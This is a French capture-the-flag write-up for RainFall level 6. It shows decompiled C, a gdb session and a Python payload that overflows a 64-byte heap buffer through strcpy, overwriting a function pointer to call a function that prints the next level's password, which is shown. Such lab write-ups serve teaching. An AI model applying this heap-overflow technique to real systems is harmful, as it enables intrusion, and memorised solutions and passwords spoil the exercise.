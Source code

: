 # Level 6

Voici le nouveau code décompilé :
```
void n(void)
{
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)

{
  puts("Nope");
  return;
}

void main(undefined4 param_1,int param_2)

{
  char *__dest;
  code **ppcVar1;
  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}
```
La vulnérabilité se trouve dans la fonction strcpy, où l'on peut écrire davantage que tampon alloué.
Ici "dest" qui est de 64 char.

Nous allons donc écraser l'adresse de retour sur le tas, par l'adresse de la fonction 'n'.

```
level6@RainFall:~$ python -c 'print "a"*64' > /tmp/exploit3
level6@RainFall:~$ gdb level6
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.

(gdb) b*0x080484ca
Breakpoint 1 at 0x80484ca

(gdb) run $(cat /tmp/exploit3)
Starting program: /home/user/level6/level6 $(cat /tmp/exploit3)

Breakpoint 1, 0x080484ca in main ()

(gdb) x/100wx $eax
0x804a008:	0x61616161	0x61616161	0x61616161	0x61616161
0x804a018:	0x61616161	0x61616161	0x61616161	0x61616161
0x804a028:	0x61616161	0x61616161	0x61616161	0x61616161
0x804a038:	0x61616161	0x61616161	0x61616161	0x61616161
0x804a048:	0x00000000	0x00000011	0x08048468	0x00000000
0x804a058:	0x00000000	0x00020fa9	0x00000000	0x00000000
```

L'adresse de retour est "0x08048468" et correspond à l'adresse de la fonction "m", nous allons remplacer cette adresse par celle de la fonction "n".

```
level6@RainFall:~$ python -c 'print "a"*72 + "\x54\x84\x04\x08"' > /tmp/exploit3
level6@RainFall:~$ /home/user/level6/level6 $(cat /tmp/exploit3)
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```